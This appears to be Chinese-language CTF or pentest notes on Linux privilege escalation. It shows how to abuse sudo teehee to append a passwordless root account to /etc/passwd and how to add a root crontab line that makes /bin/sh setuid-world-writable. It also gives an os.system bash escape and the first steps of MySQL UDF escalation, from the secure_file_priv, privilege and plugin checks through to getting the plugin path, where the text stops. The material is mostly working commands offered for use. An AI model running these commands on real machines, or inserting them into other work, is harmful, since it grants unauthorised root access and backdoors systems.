 我们可以借助teehee往passwd写入一个root账号即可得到root权限

/etc/passwd格式
username:password:User ID:Group ID:comment:home directory:shell

echo "admin::0:0:::/bin/bash" | sudo teehee -a /etc/passwd

### teehee定时提权
```
sudo teehee /etc/crontab
* * * * * root chmod 4777 /bin/sh
```
## echo逃逸
echo os.system("/bin/bash")



# mysql的udf逃逸

^c66e64

## 1. 查看能否允许导入导出文件
```
 show variables like "%secure_file_priv%"
```

secure_file_priv是用来限制load dumpfile、into outfile、load_file() 函数在哪个目录下拥有上传或者读取文件的权限。

当 secure_file_priv 的值为 null ，表示限制 mysqld 不允许导入|导出，此时无法提权
当 secure_file_priv 的值为 /tmp/ ，表示限制 mysqld 的导入|导出只能发生在 /tmp/ 目录下，
此时也无法提权 当 secure_file_priv 的值没有具体值时，表示不对 mysqld 的导入|导出做限制，此时可提权

## 2. 看是否是最高权限
```
 select * from mysql.user where user = substring_index(user(), '@', 1) ;
```
## 3. 查看plugin的值
```
select host,user,plugin from mysql.user where user = substring_index(user(),'@',1);
```


plugin值表示mysql用户的认证方式。当 plugin 的值为空时不可提权，为 `mysql_native_password` 时可通过账户连接提权。默认为`mysql_native_password`。另外，mysql用户还需对此plugin目录具有写权限。

## 4.  上传udf库文件

1. 获取plugin路径

```text
mysql> show variables like "%plugin%";
```
